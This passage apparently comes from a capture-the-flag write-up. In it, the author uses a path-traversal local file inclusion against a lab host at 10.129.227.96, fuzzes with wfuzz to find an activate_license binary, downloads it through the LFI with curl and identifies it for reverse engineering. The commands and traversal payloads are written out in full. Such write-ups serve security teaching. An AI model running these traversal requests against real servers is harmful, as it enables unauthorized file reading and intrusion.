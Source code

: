 ```
/usr/local/sbin
/usr/local/bin
/usr/sbin
/usr/bin
/sbin
/bin
/usr/local/games
/usr/games
```

Then, use `wfuzz` to find the `activate_license` binary.&#x20;

```
$ wfuzz -c -w path_variables -u http://10.129.227.96/index.php?page=../../../../../../../..FUZZ/activate_license /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.129.227.96/index.php?page=../../../../../../../..FUZZ/activate_license
Total requests: 8

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000001:   302        0 L      0 W        0 Ch        "/usr/local/sbin"           
000000003:   302        0 L      0 W        0 Ch        "/usr/sbin"                 
000000008:   302        0 L      0 W        0 Ch        "/usr/games"                
000000007:   302        0 L      0 W        0 Ch        "/usr/local/games"          
000000005:   302        0 L      0 W        0 Ch        "/sbin"                     
000000002:   302        0 L      0 W        0 Ch        "/usr/local/bin"            
000000004:   302        53 L     462 W      22501 Ch    "/usr/bin
```

Seems that `/usr/bin/activate_license` is where it is at. We can download this and try to run it:

```
$ curl http://10.129.227.96/index.php?page=../../../../../../../../usr/bin/activate_license
$ ./activate_license 
Error: specify port to bind to

$ file activate_license
activate_license: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=554631debe5b40be0f96cabea315eedd2439fb81, for GNU/Linux 3.2.0, with debug_info, not stripped
```

This confirms that this is a binary exploitation challenge. We can being with reverse engineering the binary in `ghidra`.

Anyways, we can continue with our enumeration of the webpages. We can use this LFI to read the source code of the pages. There was an `activate_license.php` file here too.&#x20;
